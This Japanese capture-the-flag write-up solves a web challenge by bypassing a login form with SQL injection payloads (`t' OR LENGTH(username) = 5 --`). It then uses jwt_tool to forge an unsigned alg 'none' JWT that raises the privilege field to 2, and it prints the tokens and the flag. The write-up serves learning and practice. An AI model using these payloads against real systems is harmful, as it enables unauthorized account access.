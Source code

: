 # Getting admin:Web:300pts
Challenge instance ready at 95.216.233.106:36245.  
See if you can get an admin account.  

# Solution
アクセスするとSign inとSign upがあるが、Sign upは現在停止しているようだ。  
RAQE  
[site.png](../Quarantine_-_Hidden_information/site/site.png)  
Sign inを試みる。  
Login  
[site1.png](../Quarantine/site/site1.png)  
Passwordに`'`を入力(Usernameは空)してみると、Internal Server Errorを引き起こせた。  
SQLインジェクションが行えそうだ。  
`t' OR 't' = 't`をPasswordに設定したところ以下のようにAttempting to login as more than one user!??と怒られた。  
Login(more than one user)  
[site2.png](../Quarantine/site/site2.png)  
userを制限してやれば良いため、`t' OR LENGTH(username) = 5 --`とする。  
ログイン成功したが、adminではないためAdminリンクには飛べない。  
Three videos avaliable  
[site3.png](../Quarantine/site/flag.png)  
ここでクッキーを見てみると以下のJWTが入っていた。  
```text
eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJ1c2VyIjogIkhhcnJ5IiwgInByaXZpbGVnZSI6IDF9.A7OHDo-b3PB5XONTRuTYq6jm2Ab8iaT353oc-VPPNMU
```
JWTだ。  
[JSON Web Tokens - jwt.io](https://jwt.io)で中身を見ると以下のようであった。  
HEADER:ALGORITHM & TOKEN TYPE  
```json
{
  "typ": "JWT",
  "alg": "HS256"
}
```
PAYLOAD:DATA   
```json
{
  "user": "Harry",
  "privilege": 1
}
```
userをAdminとするかprivilegeを0か2にしてみれば良いようだが署名をどうにかする必要がある。  
[The JSON Web Token Toolkit](https://github.com/ticarpi/jwt_tool)を使ってnoneが通るか確認する。  
一部の出力は省略する。  
```bash
$ python jwt_tool.py eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJ1c2VyIjogIkhhcnJ5IiwgInByaXZpbGVnZSI6IDF9.A7OHDo-b3PB5XONTRuTYq6jm2Ab8iaT353oc-VPPNMU
> 2
~~~
"alg": "None":
eyJ0eXAiOiJKV1QiLCJhbGciOiJOb25lIn0.eyJ1c2VyIjoiSGFycnkiLCJwcml2aWxlZ2UiOjF9.

"alg": "NONE":
eyJ0eXAiOiJKV1QiLCJhbGciOiJOT05FIn0.eyJ1c2VyIjoiSGFycnkiLCJwcml2aWxlZ2UiOjF9.

"alg": "nOnE":
eyJ0eXAiOiJKV1QiLCJhbGciOiJuT25FIn0.eyJ1c2VyIjoiSGFycnkiLCJwcml2aWxlZ2UiOjF9.
~~~
```
`eyJ0eXAiOiJKV1QiLCJhbGciOiJOb25lIn0.eyJ1c2VyIjoiSGFycnkiLCJwcml2aWxlZ2UiOjF9.`をセットしても問題ないようだ。  
よってJWTを任意のものに改竄し、署名無しにすればよい。  
一部の出力は省略する。  
```bash
$ python jwt_tool.py eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJ1c2VyIjogIkhhcnJ5IiwgInByaXZpbGVnZSI6IDF9.A7OHDo-b3PB5XONTRuTYq6jm2Ab8iaT353oc-VPPNMU
> 1
> 2
> none
> 0
> 2
> 2
[1] user = "Harry"
[2] privilege = 2
[3] *ADD A VALUE*
[4] *DELETE A VALUE*
[0] Continue to next step
>0
> 3
~~~
Your new forged token:
"alg": "none":
eyJ0eXAiOiJKV1QiLCJhbGciOiJub25lIn0.eyJ1c2VyIjoiSGFycnkiLCJwcml2aWxlZ2UiOjJ9.

====================================================================
Some variants, which may work on some JWT libraries:

"alg": "None":
eyJ0eXAiOiJKV1QiLCJhbGciOiJOb25lIn0.eyJ1c2VyIjoiSGFycnkiLCJwcml2aWxlZ2UiOjJ9.

"alg": "NONE":
eyJ0eXAiOiJKV1QiLCJhbGciOiJOT05FIn0.eyJ1c2VyIjoiSGFycnkiLCJwcml2aWxlZ2UiOjJ9.

"alg": "nOnE":
eyJ0eXAiOiJKV1QiLCJhbGciOiJuT25FIn0.eyJ1c2VyIjoiSGFycnkiLCJwcml2aWxlZ2UiOjJ9.
====================================================================
```
結局privilegeを2とするのが正解だった。  
`eyJ0eXAiOiJKV1QiLCJhbGciOiJub25lIn0.eyJ1c2VyIjoiSGFycnkiLCJwcml2aWxlZ2UiOjJ9.`をセットしてAdminに飛ぶとflagが得られる。  

## ractf{j4va5cr1pt_w3b_t0ken}